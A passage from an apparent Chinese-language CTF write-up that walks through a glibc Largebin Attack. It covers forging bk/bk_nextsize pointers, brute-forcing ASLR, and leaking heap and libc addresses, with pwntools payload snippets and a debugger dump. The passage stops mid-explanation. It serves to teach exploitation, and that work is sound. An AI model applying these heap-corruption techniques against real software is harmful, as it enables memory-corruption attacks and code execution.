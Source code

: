 `free(2)`之后，`chunk2`被放到了Unsorted bin中，但是在这之前`chunk8`的一部分也在Unsorted bin，所以它被放到了Large bin中，这段我们是可以控制的，所以我们满足了Largebin Attack的要求，我们可以控制`bk_nextsize`和`bk`指针。

然后构造`chunk8`在Unsorted bin的那一部分的`bk`和`bk_nextsize`指针，让他们指向我们需要修改的地方。

```python
try:
    # if the heap address starts with "0x56", you win
    alloc(0x48)     #2
except EOFError:
    # otherwise crash and try again
    r.close()
    continue
```

这里详细说一下这样构造`fake_chunk`的目的。

这里使用Largebin Attack:

`chunk2`地址末尾是`0x060`。

我们`alloc(0x48)`时会将`chunk2`放入large bin。在这个过程中会让`fwd->fd->bk_nextsize->fd_nextsize = chunk2;`，即`*(0x13370000 + 0x800 - 0x20 - 0x18 - 5 + 0x20)  = *(0x13370800 - 0x18 - 5) = chunk2`。

然后`fwd->bk = chunk2`

这时，`chunk2`被放入Largebin，然后接下来分配`0x48`会在我们伪造的`bk`也就是`fake_chunk`上分配，因为Unsorted bin只有这个`chunk`了。

这是检查`size`字段也就是`0x13370800 - 0x20 + 0x8`,而这里刚好被我们修改，就在刚才的`fwd->fd->bk_nextsize->fd_nextsize = chunk2;`。所以这里变成了`0x56`或者`0x50`。因为ASLR的关系，需要多次尝试，直到出现`0x56`。因为mmap的`chunk`的标识位被置位。

```python
pwndbg> x/4gx 0x133707e0
0x133707e0:     0x49a7dea060000000      0x0000000000000056
0x133707f0:     0x00007f56ba63fb78      0x00005649a7dea060
```

再往后就是leak heap和libc了。

我们能想到的就是通过`main_arena`来leak libc。所以我们要先知道`main_arena`。

```python
payload = p64(0)*2 + p64(0) + p64(0) + p64(0) + p64(0x13377331) + p64(storage)
update(2, payload)

payload = p64(0) + p64(0) + p64(0) + p64(0x13377331) + p64(storage) + p64(0x1000) + p64(storage-0x20+3) + p64(8)
update(0, payload)

leak = view(1)
heap = u64(leak)
print ('heap: %x' % heap)
```

这个时候的`chunk2`就是`0x133707f0`了。由于申请大小的关系，我们需要构造`chunk0`的指针指向`storage`，修改大小，然后从`chunk1`那里来操作。

首先泄漏在heap指针来得到我们之前申请过的`chunk`，由于我们知道它与heap base的偏移量。我们就可以得到heap base。

然后我们发现这个时候这个chunk里有main_area:
